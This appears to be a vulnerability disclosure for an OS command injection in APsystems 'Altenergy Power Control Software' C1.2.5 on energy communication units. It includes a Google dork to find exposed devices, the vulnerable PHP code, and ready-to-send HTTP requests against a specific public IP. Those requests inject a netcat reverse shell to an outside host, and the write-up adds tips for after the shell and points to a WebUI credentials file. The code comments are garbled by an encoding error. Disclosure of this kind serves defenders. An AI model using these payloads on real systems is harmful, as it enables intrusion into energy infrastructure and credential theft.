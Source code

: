 ## title : OS command injection affects "Altenergy Power Control Software"
### SW ver : C1.2.5
### Vendor :  https://apsystems.com/
### Google Dork : intitle:"Altenergy Power Control Software"
### Affected device : ENERGY COMMUNICATION UNIT
![Alt Text](https://www.ecodirect.com/v/vspfiles/photos/APSYSTEMS-YC500-ECU-2T.jpg)


## vulnerable code :

"/home/local_web/pagesapplication/models/management_model.php"

```php
   public function set_timezone()
    {
        $results = array();

        //ΦÄ╖σÅûΘí╡Θ¥óΘÇëµï⌐τÜäµù╢σî║
        $timezone = $this->input->post('timezone');
        if(strlen($timezone) == 0)
                $timezone = "Asia/Taipei";

        //Φ«╛τ╜«linuxτ│╗τ╗ƒµù╢σî║
        $cmd = "cp /usr/share/zoneinfo/$timezone /etc/localtime";
        system($cmd);

        //σ░åµù╢σî║Σ┐¥σ¡ÿσê░Θàìτ╜«µûçΣ╗╢
        $fp = @fopen("/etc/yuneng/timezone.conf",'w');
        if($fp){
            fwrite($fp, $timezone);
            fclose($fp);
        }

```

## Exploit : 


HTTP request : 
```
POST /index.php/management/set_timezone HTTP/1.1
Host: 78.218.230.32:8081
Content-Length: 33
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://78.218.230.32:8081
Referer: http://78.218.230.32:8081/index.php/management/datetime
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

timezone=`mknod /tmp/backpipe p `
```
HTTP request : 

```
POST /index.php/management/set_timezone HTTP/1.1
Host: 78.218.230.32:8081
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://78.218.230.32:8081
Referer: http://78.218.230.32:8081/index.php/management/datetime
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

timezone=`/bin/sh 0</tmp/backpipe | nc 156.197.154.12 4444 1>/tmp/backpipe`

```
POC : 

![Alt Text](POC.png)

** note **
- please use the following command after getting shell to avoid distorying the WEBUI.  
"echo Asia/Taipei > /etc/yuneng/timezone.conf"  

## Important files to check :  
- /etc/yuneng/passwd.conf this file contains the credentials for the WebUI.  
